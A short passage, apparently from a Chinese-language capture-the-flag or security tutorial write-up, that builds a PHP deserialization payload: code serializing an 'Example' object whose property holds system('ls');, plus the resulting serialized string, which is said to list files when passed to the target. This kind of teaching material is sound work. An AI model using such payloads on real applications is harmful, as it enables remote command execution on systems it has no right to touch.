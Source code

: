 ![image-20240125173607194](照片/image-20240125173607194.png)

------

发现可行，那我们构建命令



```
 $a = new Example();
 $a->sys="system('ls');";
 echo "\n";
 echo serialize($a);

O:7:"Example":1:{s:3:"sys";s:13:"system('ls');";}
```

将其传入可以看到文件列表
